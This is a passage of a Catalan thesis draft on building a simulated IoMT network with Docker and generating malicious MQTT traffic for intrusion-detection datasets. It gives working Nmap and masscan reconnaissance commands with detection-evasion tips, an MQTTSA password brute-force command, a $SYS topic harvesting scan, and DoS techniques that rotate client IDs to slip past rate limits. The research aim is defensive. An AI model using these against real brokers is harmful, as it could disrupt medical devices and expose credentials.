\label{sec:Eines}
  Per a la realització d’aquest treball s’han emprat diverses eines de codi obert, escollides pel seu suport ampliat en entorns de xarxa, la seva flexibilitat i la possibilitat d’automatitzar proves i captures de trànsit en entorns simulats. Algunes d’aquestes eines tenen un enfocament general i són àmpliament utilitzades en proves de penetració en xarxes IP tradicionals, mentre que d’altres presenten característiques específiques que les fan especialment adequades per a entorns IoT o IoMT.

  Totes aquestes eines han estat utilitzades en un entorn de Kali Linux, que és l’entorn base per a la realització d’aquest treball. 
  
  Kali Linux és una distribució basada en Debian orientada específicament a seguretat informàtica i proves de penetració (pentesting). Mantinguda per l’equip d’Offensive Security (OFSEC), Kali proporciona un entorn completament equipat amb centenars d’eines preinstal·lades per a l’auditoria de xarxes, anàlisi de vulnerabilitats, enginyeria inversa, sniffing, spoofing, explotació i forense digital. \cite{kaliexp} 
  
  Aquesta distribució té certes avantatges respecte a altres sistemes operatius, les mes destacables són:
    
    \begin{itemize}
      \item \textbf{Gran nombre d’eines incloses:} Kali inclou eines com Nmap, Masscan, Wireshark, tcpdump, Scapy, aprscan i moltes més, facilitant la realització de proves diverses sense necessitat d’instal·lació addicional.
      \item \textbf{Entorn controlat i configurable:} Kali pot executar-se de manera virtualitzada (en aquest treball s'ha utilitzat en contenidors Docker), fet que permet recrear escenaris controlats i aïllats per a la simulació d’atacs sense posar en risc cap sistema real.
      \item \textbf{Actualitzacions contínues i suport actiu de la comunitat:} Es tracta d’una distribució mantinguda amb freqüència, compatible amb la majoria d’arquitectures, i àmpliament utilitzada tant en àmbits acadèmics com professionals.
      \item \textbf{Automatització i scripting:} El seu entorn Unix-like facilita l’ús d’scripts en bash o python per automatitzar atacs, recollir trànsit o llançar seqüències repetitives d’accions
    \end{itemize}  

    A continuació es descriuen les principals fetes servir en aquest projecte:

    \subsection{Nmap}
    \label{sec:NMAP}
    Nmap (Network Mapper) és una eina de network reconnaissance i auditoria de xarxes molt utilitzada en l’àmbit del pentesting. Permet identificar dispositius connectats a una xarxa, descobrir serveis oberts, detectar sistemes operatius i obtenir informació detallada mitjançant scripts del motor NSE (Nmap Scripting Engine). Nmap pot utilitzar diferents tècniques d'escaneig (TCP SYN, UDP, ping sweep, etc.), i també permet la detecció de versions de serveis, cosa que facilita la identificació de vulnerabilitats específiques en dispositius o serveis actius. És una eina molt completa per a la fase de reconeixement, però pot resultar relativament lenta quan s’aplica a xarxes amb un gran nombre d’hosts o rangs amplis d’adreces IP.

    Masscan, en canvi, és una eina especialitzada en escaneig de ports oberts a gran escala i amb una velocitat molt superior a la de Nmap. La seva arquitectura li permet enviar milions de paquets per segon, fet que la fa ideal per a fer un descobriment ràpid d’hosts actius en xarxes grans. No proporciona tants detalls com Nmap (com versions de serveis o sistema operatiu), però és extremadament útil com a pas previ per detectar ràpidament quins dispositius responen en determinats ports.

    En el context d’aquest treball, Masscan ha resultat especialment útil per a detectar dispositius IoT actius dins segments de xarxa amb centenars d’IPs possibles, abans d’aplicar anàlisis més profundes amb Nmap. Així, s’ha pogut optimitzar el temps d’escaneig i enfocar els esforços de reconeixement detallat només sobre aquells nodes que realment presentaven algun servei obert.

    \subsection{TCPDump}
    \label{sec:TCPDump}
    TCPDump és una eina de línia de comandes per a la captura i anàlisi de paquets a nivell de xarxa. Es tracta d’una eina fonamental en entorns de recerca i pentesting, ja que permet registrar amb precisió tot el trànsit que circula per una interfície de xarxa en temps real. \cite{wtfexp}
    
    TCPDump permet capturar trànsit benigne i maliciós entre dispositius de la xarxa i crear arxius de captura amb extensió pcap. És una eina similar a Wireshark, però més lleugera, utilitzada a través de terminal i amb capacitat de ser feta servir en automatitzacions.

    \subsection{ArpSpoof i Bettercap}
    \label{sec:ARPSpoof}
    ARPSpoof és una eina clàssica inclosa dins la suite dsniff, utilitzada per dur a terme atacs de tipus ARP spoofing o ARP poisoning. Aquest tipus d’atac consisteix a enviar respostes ARP falses dins una xarxa local per tal d’enganyar els dispositius i fer-los creure que l’atacant és el un altre dispositiu de la xarxa. Això permet interceptar el trànsit entre dos nodes, amb la finalitat de capturar dades sensibles o manipular el contingut dels paquets. ARPSpoof és una eina senzilla i directa, útil per entendre els fonaments d’aquest tipus d’atacs.

    BetterCAP, per la seva banda, és una eina molt més avançada i modular, dins d'ella s'inclouen funcionalitats per a realitzar atacs de tipus ARP spoofing més elaborats i personalitzables que amb ArpSpoof.

    \subsection{Mitmproxy}
    \label{sec:MITMProxy}
    MITMProxy és una eina de tipus proxy intermediari que permet interceptar, analitzar, modificar i registrar el trànsit entre clients i servidors de manera interactiva. A diferència d'altres eines centrades únicament en la captura passiva, MITMProxy ofereix una interfície potent per veure i modificar les peticions i respostes en temps real.

    Per a la realització d'aquest treball MITMProxy ha estat especialment útil perquè permet utilitzar scripts de python per a modificar el trànsit de forma dinàmica, així com per a automatitzar atacs de tipus MITM. \cite{mitmproxyexp}

    \subsection{Mqtt Malaria i MQTTSA}
    \label{sec:MQTTSA}
    MQTTSA (MQTT Security Assistant) és una eina especifica per a la generació de trànsit MQTT permetent realitzar atacs de denegació de servei (DoS) personalitzables com Low-Rate DoS explicat a \cite{lowrateDDoSexp}. També permet altres atacs de força bruta i la generació de reports en PDF. \cite{mqttsaexp}

    També s'ha utilitzat MQTT Malaria, una eina enfocada en atacs DoS implementada en Python que ens permet un ús més simple i directe que MQTTSA. \cite{mqttmalaria}
    
    \subsection{Zeek}
    \label{sec:Zeek}
    Zeek (anteriorment conegut com Bro) és una plataforma d’anàlisi de trànsit de xarxa en profunditat (NSM), que també pot ser utilitzada com a IDS. Està orientada a la generació de registres estructurats a partir de captures de paquets (.pcap). \cite{zeekexp}

    Zeek genera automàticament fitxers de registre específics com conn.log, dns.log, mqtt-subscriber.log, wired.log entre altres. Aquests fitxers inclouen informació útil com connexions establertes, ports i IPs implicades, consultes DNS, sessions, ús de TLS, autenticacions sospitoses, i molt més.

    Si bé l'anàlisi de trànsit amb Zeek no és l'objectiu principal d'aquest treball, s'ha utilitzat per a poder entendre millor el funcionament dels atacs i evaluar la seva efectivitat.


\chapter{Desenvolupament d’un entorn IoMT simulat}
Per al desplegament d’un entorn IoMT simulat seguint l’arquitectura explicada a \ref{sec:Topologia} s'ha utilitzat dispositius reals (amb ordinadors convencionals i Raspberry Pi) i simulats a través de contenidors Docker i l’orquestrador Docker Compose.

Per a la realització dels clients, que representen el trànsit benigne, he utilitzat una imatge d’Ubuntu \cite{ubuntuimg}, aquesta ha estat modificada instal·lant l'eina \textit{mosquitto-clients 2.0.20}. Amb aquesta aplicació podem fer actuar aquest contenidor d'Ubuntu com un client MQTT i tenir les seves funcions principals com subscriure’s i publicar a un tòpic d’un broker concret i utilitzar totes les funcionalitats descrites a \ref{sec:mosquitto}. També he instal·lat Python 3.13.2 i Paho-mqtt 2.0.0 \cite{pahoexp} per a poder generar paquets de forma personalitzada. Amb aquesta llibreria de Python podem modificar aspectes molt més concrets de les nostres connexions MQTT i paquets, canviant els valors de les dades o la freqüència d’enviament de les publicacions. Gràcies a aquesta eina, al ser una llibreria de Python, podem córrer els clients de manera automatitzada mitjançant funcionalitats pròpies del llenguatge Python. Finalment, he instal·lat les eines net-tools i iputils per tal de poder monitoritzar l’estat dels contenidors i fer comprovacions de connectivitat.

Pel que fa al Broker, he utilitzat l’imatge oficial de mosquitto anomenada \textit{eclipse-mosquitto (versió 2.0.21)} \cite{mosquittoimg}. Aquesta permet l’ús del contenidor com a broker MQTT en les seves versions 3.1 i 5.1.1 amb totes les funcionalitats de les quals disposa la versió local. Respecte a la seva configuració de Docker, he mapejat els ports 1883 i 8883 perquè en establir una connexió TCP a un d’aquests ports de l'hipervisor es dirigeixi al mateix port del contenidor broker. També he generat 3 volums compartits amb l'hipervisor:
\begin{itemize}
    \item \textbf{Config:} on s’ubica el fitxer de configuracions mosquitto.conf
    \item \textbf{Data:} on opcionalment s'emmagatzemen les dades rebudes en format txt o dintre una base de dades
    \item \textbf{Log:} on es guarden els logs dels errors ocasionats durant el seu funcionament en fitxers .log
\end{itemize} 

Pel que fa al monitor de trànsit, partint de l’image base Ubuntu, s’ha instal·lat \textit{tcpdump 4.99.5} i \textit{wireshark 4.4.3} ( \ref{sec:TCPDump} ). Com ha estat explicat a \ref{sec:Topologia}, la seva funcionalitat és emmagatzemar el trànsit per tal de generar el dataset mitjançant \textit{tcpdump} i \textit{Wireshark}. Per tal de poder visualitzar l'interfície gràfica de Wirehark, s’ha fet servir el socket de X11 de l’hipervisor mapejat al contenidor.

Per l’atacant, parteix de la imatge \textit{kalilinux/kali-last-release} \cite{kaliimg} amb l’instal·lació dels paquets \textit{kali-linux-headless} que conté les eines més utilitzades de kali linux i depenent de l’atac s’ha instal·lat altres eines de pentesting explicades posteriorment.

Per al desplegament de contenidors per part de l'atacant, he configurat una xarxa personalitzada de docker mitjançant l'eina \textit{Docker Compose} on es disposen tots els contenidors i tenen connectivitat entre ells com si es tractés d'una xarxa LAN privada. 

Per integrar aquest desplegament en un model híbrd entre dispositius simulats i dispositius reals, s’ha utilitzat la configuració de xarxa dintre \textit{Docker Compose} anomenada \textit{MACVLAN} que permet connectar els contenidors a la xarxa física amb adreces IP i MAC diferent a la del hipervisor (cal evitar conflictes amb altres adreces ja utilitzades en xarxa física), amb un efecte similar al que tindríem connectant un switch a la xarxa amb tots els seus contenidors. Amb aquesta configuració m'he coordinat amb altres membres del grup ISG-UPC per a poder integrar el meu treball al projecte. 
Finalment, en diversos atacs, he configurat l'entorn amb el mode \textit{IPVLAN (L2)} on cada contenidor té una adreça IP diferent, però, l'hipervisor sobreposa la seva adreça MAC i respon a peticions ARP per a les diferents adreces IP. Això és mès compatible en xarxes WiFi WPA2.

 \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/DockerNetworks.png}
    \caption{La figura mostra el comportament dels diferents drivers de xarxa de Docker (excloent el mode host on directament actua en nom de l'hipervisor).}
    \label{fig:DockerNetworks}
  \end{figure}

Per concloure, per a l'execució dels diferents atacs explicats en aquest treball, es pot resumir l'estructura de xarxa seguint aquest esquema:

 \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/infraXarxa.png}
    \caption{La figura mostra la infraestructura de xarxa dissenyada per als diferents atacs: Consta d'una xarxa Wifi amb un broker, un nombre varaible de clients i l'atacant on s'hi despleguen xarxes virtuals diferents per a cada atac.}
    \label{fig:Infraestructura}
  \end{figure}


\chapter{Elaboració d'atacs per a la generació de trànsit maliciós}

En aquest capítol es presenten els atacs que s'han implementat per a generar trànsit maliciós en l'entorn IoMT descrit a \ref{sec:Topologia}. Aquests atacs tenen com a objectiu comprometre la seguretat dels dispositius connectats o del broker intentant ser fidels a la realitat d'un escenari real. 

S'han utilitzat les eines descrites a \ref{sec:Eines} així com diversos blocs de codi elaborat en Python i funcionalitats pròpies de Linux. 


Per tal de generar dades que poden ser fetes servir per a l'entrenament de models de detecció d'intrusions basats en \textit{machine learning}.



\section{Atacs de descobriment de dispositius}
\label{sec:Recon}

El primer atac que se sol dur a terme en un entorn IoT és el descobriment de dispositius. Aquest se centra en identificar els dispositius connectats a la xarxa i obtenir informació sobre ells, com ara adreces IP, ports oberts i serveis disponibles. Això permet als atacants conèixer la topologia de la xarxa i identificar possibles vulnerabilitats.

Primer de tot, s'ha implementat un atac per aconseguir descobrir l'adreça IP del broker MQTT, ja que és l'element central de la comunicació entre els dispositius IoMT. Per a això, s'ha utilitzat l'eina \textit{nmap} \ref{sec:NMAP} per escanejar la xarxa sencera. Mitjançant Nmap, s'ha aplicat la detecció de ports oberts 1883 i 8883 (en el cas d'ús de TLS), ja que el broker MQTT, per rebre connexions dels clients ha de tenir aquests ports oberts.

També, una estratègia interessant és la detecció de serveis mitjançant l'opció -sV en Namp. Això ens permet descobrir si en el port 1883 o 8883 escanejat, s'està executant un servei de MQTT com per exemple Mosqitto 3.1.1.

Una execució utilitzada és:
\begin{tcblisting}{colback=white, colframe=black!70, listing only}
    nmap -sV -p 1883,8883 192.168.0.0/24
\end{tcblisting}

Aquest atac realitzarà una gran quantitat de peticions ARP a totes les IP del rang especificat i, en cas que contestin intentarà iniciar una connexió TCP als ports especificats (1883 i 8883), recopilant la informació de les respostes. Seguidament, mitjançant scripts propis de Nmap amb diverses peticions TCP intentarà esbrinar quins serveis s'estan executant.  

\textbf{capt wireshark}

Però aquesta execució no és del tot realista, ja que és fàcilment detectable. Per això per a poder generar trànsit maliciós de forma més realista, s'han d'utilitzar estratègies menys sorolloses, és a dir on es generi menys trànsit i sigui menys detectable.

Una opció és utilitzar inicialment un escaneig general arp o icmp més lent per tal de recopilar les IPs actives, i llavors fer un escaneig més específic a les IPs que han respost. Així, es redueix el trànsit generat i es fa més difícil la detecció de l'atac.

Per a fer el primer escaneig més silenciós es pot utilitzar l'opciṕo -T per ajustar la velocitat (un valor -T2 per una xarxa /24 pot trigar uns 10 minuts). També podem afegir l'opció -n per evitar la resolució de noms DNS, ja que al ser una xarxa local no és necessari. 

Llavors, per a fer el segon escaneig més específic, es pot utilitzar l'opció -Pn per evitar el ping (ja que ja sabem que el dispositiu està actiu gràcies al primer escaneig). També es pot afegir -sS per evitar completar el handshake TCP i així ser menys detectable. Ara podem afegir els ports específics i la detecció de serveis. Un exemple seria: 
\begin{tcblisting}{colback=white, colframe=black!70, listing only}
    nmap -sn -n -T2 192.168.0.0/24   #primer escaneig.
    nmap -Pn -sV -sS -p 1883,8883 IPs-actives.txt  #segon escaneig amb la llista d'IPs actives obtinguda del primer escaneig.
\end{tcblisting}

\textbf{capt wireshark}

Per a fer l'esaneig més ràpid, també he utilitzat masscan per a la detecció del broker, però no és tant eficient i és menys sigilós.

\begin{tcblisting}{colback=white, colframe=black!70, listing only}
    masscan 192.168.0.0/24 -p1883,8883 --rate 1000 -oG masscan.txt
\end{tcblisting}

\textbf{capt wireshark?}

Per a la detecció dels clients IoMT, amb el primer escaneig ja veiem els dispositius actius a la xarxa, però no podem saber si realment són dispositius IoMT, per això podem utilitzar la detecció de \textit{fingerprint} dels dispositius, referit a extreure tota la informació possible que descriu i diferència un dispositiu. 

El fingerprint es pot aconseguir mitjançant l'opció \textit{-o} de Nmap que detecta el sistema operatiu o també scripts NSE com \textit{"banner"} o \textit{"fingerprint-settings"}, encara que, són mètodes molt intrusius i, per tant, molt detectables. També es pot optar per a utilitzar datasets públics d'adreces MAC conegudes de fabricants com ara Philips Health, Siemens Healthcare o també Raspberry Pi i altres marques dispositius embeguts que siguin usualment utilitzats com a clients IoMT.

\begin{table}[H]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Registry} & \textbf{Assignment} & \textbf{Organization Name} \\
\midrule
MA-S & 70B3D5B91 & Cardinal Health \\
MA-S & 8C1F6448D & Health Care Originals, Inc. \\
MA-S & 8C1F64C79 & Hills Health Solutions \\
MA-S & 8C1F6430C & Hills Health Solutions \\
MA-S & 001BC50B0 & Miracle Healthcare, Inc. \\
MA-S & 70B3D5FC4 & PHYZHON Health Inc \\
MA-S & 8C1F64B64 & Sensus Healthcare \\
MA-S & 8C1F64804 & Siemens Healthcare Diagnostics \\
MA-S & 8C1F6454A & Sound Health Systems \\
\bottomrule
\end{tabular}
\caption{Petit extret del fitxer "MAC Address Block Large (MA-S)" de \cite{iotmaclist} filtrat per a visualitzar només fabricants IoMT on es veuen parelles IniciMAC - Fabricant}  % Peu de figura
\label{fig:iot_manufacturers}
\end{table}


\section{Atacs de descobriment d’informació del broker MQTT}

En aquest apartat es descriuen diferents atacs que permeten descobrir diferent informació interessant per a l'atacant explotant vulnerabilitats del broker MQTT. Per a realitzar aquests atacs, s'ha suposat coneguda l'adreça IP i port del broker MQTT així com altres dades que poden ser trobades mitjançant els atacs utilitzats en l'apartat anterior (\ref{sec:Recon}).


\subsection{Atacs de descobriment de credencials}

Una de les mesures de seguretat més comunes per als brokers MQTT és l'autenticació mitjançant nom d'usuari i contrasenya. Mosquitto, d'igual manera que la majoria de brokers MQTT comercials disposa d'un sistema per a generar fitxers de credencials d'usuari. Per a la realització d'aquest atac, he configurat el broker solament permetent l'entrada de l'usuari "tfg" amb la contrasenya "1234" amb mosquitto-passwd. Aquest genera un fitxer passwd on es guarda usuari:contrasenya amb la contrasenya encriptada amb bcrypt. \cite{bcryptexp}. Per altra banda, he generat un fitxer anomenat acl que genera una Access Control List que habilita o no a subscriure's (read) o publicar (write) a un tòpic específic (en aquest cas tfg/\#). El seu format és el següent:

\begin{tcblisting}{colback=white, colframe=black!70, listing only}
user tfg
topic readwrite tfg/#
\end{tcblisting}

Per a descobrir credencials, s'ha elaborat un atac de força bruta mitjançant MQTT-SA (\ref{sec:MQTTSA}), una eina especialitzada en el protocol MQTT que permeten mitjançant llistes dels usuaris i credencials comprovar una gran quantitat de combinacions per tal d'accedir al broker i recopilar la validesa d'aquestes en un fitxer de sortida. Un exemple d'execució és:

\begin{tcblisting}{colback=white, colframe=black!70, listing only}
 python3 mqttsa.py -u "tfg" -w ./psw.txt -t 5 -mp 255 -mq 1000 192.168.0.40
\end{tcblisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth]{img/mqttsa.png}
    \caption{Sortida de l'atac de força bruta amb MQTT-SA. S'observa com s'ha trobat l'usuari "tfg" amb la contrasenya "1234" adequadament. Apareix la IP amb el nom de "broker" degut a l'utilització de DHCP dintre els l'entorn de contneidors.}
    \label{fig:MqttsaBruteforce}
\end{figure}

\subsection{Subscripció a tòpics d'administració}

Una característica dels brokers MQTT, és l'ús de tòpics d'administració anomenats \textbf{\$SYS} que permeten als clients obtenir informació sensible sobre l'estat del broker i dels clients.

Per a la realització d'aquest atac, s'ha utilitzat un script de NMAP anomenat mqtt-subscribe que recopila tota aquesta informació subscrivint-se a tots els tòpics d'administració possibles. 
Una execució d'aquest atac per a un broker amb IP 192.168.0.40 és la següent:

\begin{tcblisting}{colback=white, colframe=black!70, listing only}
    nmap -Pn --script mqtt-subscribe -p 1883 -oG info_broker.txt 192.168.0.40
\end{tcblisting}

Amb aquest atac a un broker mosquitto com l'utilitzat en aquest treball, s'obté informació com ara:

\begin{itemize}
    \item Informació de la versió del broker i configuració general del broker.
    \item Nom d'usuari, estat de la connexió i keep alive dels clients.
    \item Nombre màxim de clients simultanis amb els quals pot treballar el broker.
    \item Mètriques de rendiment: bits enviats per segon, bits rebuts per segon, latència, etc
    \item Estadístiques de missatges enviats i rebuts.
    \item Llista de tòpics publicats i subscrits.
    \item Diversos errors i advertències del broker.
\end{itemize}

En aquest atac, el kali linux l'atacant genera un gran nombre de paquets MQTT subscribe per a subscrire's a aquests tòpics. 

\textbf{capt wireshark}





\section{Atacs de denegació de servei (DoS)}

En aquest apartat es descriuen diferents atacs de denegació de servei (DoS) que poden ser realitzats contra el broker MQTT. Aquests atacs tenen com a objectiu saturar el broker amb peticions, fent que no pugui atendre les peticions legítimes dels clients, d'aquesta manera, aconseguim com el seu nom indica, denegar el servei a tots els clients que intenten connectar-se o enviar dades al broker.

Per a la realiztació d'aquest atac, s'ha suposat conneguda l'adreça IP i port del broker MQTT mitjançant els atacs utilitzats en l'apartat anterior (\ref{sec:Recon}).

\subsection{Denegació de servei MQTT Publish}

Inicialment, he implementat un atac de denegació de servei en el qual s'envia un gran nombre de missatges MQTT publish a un broker concret desde un client maliciós. He configurat un client MQTT mitjançant kali linux dintre un contenidor Docker com s'explica en \ref{sec:Topologia}.

Amb aquest client, s'envien peticions MQTT Publish de forma contínua mitjançant un script de bash en format bucle infinit. Amb aquest atac, en cas de protecció nula del broker, aquest es satura ja que no té un sistema de preferències per a gestionar les peticions i no pot atendre les peticions legítimes dels clients.

Una actualització d'aquest atac va ser l'eleboració d'un script de Python que, mitjançant la llibreria Paho-MQTT, permet connectar el client al tòpic especificat i enviar un gran nombre de missatges MQTT Publish de forma contínua però amb camps de dades diferents cada vegada. L'ús d'aquesta llibreria en comptes de mosquitto-clients millora la eficiència ja que permet generar trànsit amb mès velocitat, això ho aconsegueix generant un gran nombre de threads diferents, els quals envien simultaniament missatges al broker en un bucle infinit.

  \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/DoSsimple.png}
    \caption{Esquema del trànsit generat per l'atac de denegació de servei MQTT Publish explicat anteriorment.}
    \label{fig:DoSsimple}
  \end{figure}


  \subsection{Denegació de servei Distribuïda (DDoS)}

Per a la realització d'atacs de denegació de servei en MQTT, és important entendre la presistència de les sessións en MQTT, explicada a \ref{sec:MQTT}. En l'atac DoS, si utilitzem sesions no presistents, cada vegada que l'atacant vol publicar un missatge, ha de tornar intercanviar el handshake TCP i el handshake MQTT Connect. Els paquets intercanviats d'aquesta manera son lleugers i no generen una gran quantitat de trànsit, i, per tant, l'atac perd eficiència. En canvi si s'utlitzen sesions presistents, els handshakes TCP i MQTT Connect només s'intercanvien una vegada i després es poden enviar missatges de forma contínua sense necessitat de tornar a establir la connexió.

L'atac proposat inicialment no és del tot realista, ja que la major part dels brokers MQTT, tenen configurats paràmentres per defecte per tal de limitar el nombre de missatges rebuts per segon des d'un client concret, com es pot veure a \ref{sec:mosquitto}. Per aquest motiu, vaig modificar l'script per tal que canviés el Client ID dels missatges en cada connexió.

El client ID és un identificador únic per a cada client MQTT que es connecta al broker. Si s'utilitza un Client ID diferent per a cada connexió, el broker no pot aplicar les mateixes restriccions de taxa de missatges, ja que cada connexió es veu com un client diferent. Aquest s'assigna a l'hora d'intercanviar els missatges MQTT Connect, per tant no es pot fer l'atac amb connexións presistents, com he explicat anteriorment, es perd eficieǹcia comparat amb l'atac anterior, això es pot veure comparant les quantitats de trànsit generades pels 2 atacs.   

  \begin{figure}[H]
    \centering
